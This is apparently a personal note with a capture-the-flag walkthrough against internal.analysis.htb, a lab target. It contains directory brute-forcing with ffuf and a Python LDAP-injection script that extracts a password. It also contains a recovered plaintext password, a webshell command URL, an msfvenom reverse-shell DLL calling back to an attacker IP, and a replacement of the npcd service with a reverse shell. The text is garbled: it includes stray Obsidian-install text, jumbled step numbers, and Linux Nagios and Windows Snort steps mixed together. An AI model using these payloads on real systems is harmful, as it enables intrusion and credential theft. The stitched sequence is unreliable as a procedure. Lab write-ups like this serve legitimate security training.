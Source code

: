 sup:: [[Home]]
tags:: #map 

# Monitored 🗃

![[Pasted image 20240125085030.png]]

Let's get started...

---
### Steps
1.  **Start your vpn**
	Go to the directory where your downloaded vpn and start the vpn as shown below
	
![[Pasted image 20240114130711.png]]

Click on the giant purple button to download it for your OS (it should auto-detect what you have). Once it is downloaded, open the file to install and YAYAYAYAYAY!
Your computer now has Obsidian.

Next, we will perform directory bruteforcing with dirsearch:

![[Pasted image 20240125091611.png]]

2. Run a scan using incursore.sh
    
![[Pasted image 20240125091813.png]]
![[Pasted image 20240125094504.png]]
![[Pasted image 20240125095313.png]]

3. Began enumerating the dns for sub-domains:
	a. 	
![[Pasted image 20240125104520.png]]

	b. I tried running with gobuster:

![[Pasted image 20240125120548.png]]

ffuf -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://internal.analysis.htb/FUZZ

![[Pasted image 20240126123301.png]]
![[Pasted image 20240126124148.png]]

![[Pasted image 20240126082147.png]]

		c. Next, again ran ffuf

ffuf -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://internal.analysis.htb/employees/FUZZ -e .php,.html,.js

![[Pasted image 20240125192113.png]]

![[Pasted image 20240125193911.png]]


6. Next, 

![[Pasted image 20240125185823.png]]

7. Ran ffuf again but this time it was for the /users

ffuf -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://internal.analysis.htb/users/FUZZ -e .php,.html,.js


![[Pasted image 20240125204937.png]]

9. Accessing the /list.php page, we found this:
![[Pasted image 20240126024735.png]]


10. Now, since the parameter is missing let's try with parameters:

id=1&name=test
![[Pasted image 20240126031222.png]]

name=*
![[Pasted image 20240126031321.png]]


12. Enumerated with kerberute
![[Pasted image 20240126081530.png]]

13. Crafted a python script to crack the password:
#!/usr/bin/python

import argparse
import requests
import urllib.parse

def main():
    charset_path = "/home/kali/SecLists/Fuzzing/alphanum-case-extra.txt"
    base_url = "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
    found_chars = ""
    skip_count = 6
    add_star = True
    with open(charset_path, 'r') as file:
        for char in file:
            char = char.strip()
            # URL encode the character
            char_encoded = urllib.parse.quote(char)
            # Check if '*' is found and skip the first 6 '*' characters
            if '*' in char and skip_count > 0:
                skip_count -= 1
                continue
            # Add '*' after encountering it for the first time
            if '*' in char and add_star:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                add_star = False
                continue
            modified_url = base_url.replace("{FUZZ}", char_encoded).replace("{found_char}", found_chars)
            response = requests.get(modified_url)
            if "technician" in response.text and response.status_code == 200:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                file.seek(0, 0)
if __name__ == "__main__":
    main()

14. The script was able to find the password:

![[Pasted image 20240126085743.png]]
I checked the IP of my VPN
97NTtl*4QP96BV

I now inserted it into the shell command and clicked on Save button:


12. Used the found credentials to enter into the login page:

![[Pasted image 20240126085529.png]]

14. And we got authenticated:

![[Pasted image 20240126090239.png]]

16. Navigated to SOC Report and went in search of a webshell to see if I can upload it to the site:
![[Pasted image 20240126090520.png]]
![[Pasted image 20240126104443.png]]

18. Since we uploaded the webshell and there wasn't error "File is safe" we need to confirm if it uploaded successfully:
http://internal.analysis.htb/dashboard/uploads/webshell.php?cmd=whoami

![[Pasted image 20240126104542.png]]

19. Now, let's use a php cmd shell to upload this time:

![[Pasted image 20240126120722.png]]


![[Pasted image 20240127091751.png]]


21. We could try to abuse the service by either stopping, restarting and so on the npcd service. But first, let's attempt to stop the service.

Note: Before we do that I always like to create a backup file, just in case something goes wrong we can always revert back:

![[Pasted image 20240127092659.png]]

![[Pasted image 20240127092914.png]]

![[Pasted image 20240127100342.png]]

16. Created a dll payload for transfer to the target:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.151 LPORT=4555 -f dll -o r2.dll

![[Pasted image 20240127120423.png]]


16. Upload the dll file
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd

![[Pasted image 20240127104013.png]]

17. Now. let's delete the npcd file

![[Pasted image 20240127104054.png]]

18. Now, we can create our own npcd file with a reverse shell code inside:

![[Pasted image 20240127104249.png]]

19. Give the file execute permissions:

![[Pasted image 20240127114949.png]]


20 . Remove any exploit to clean up the system

Powershell commandlet
Remove-Item C:\Snort\lib\snort_dynamicpreprocessor\l2.dll

![[Pasted image 20240127140951.png]]

So, finally we escalated our privileges to the root user!!!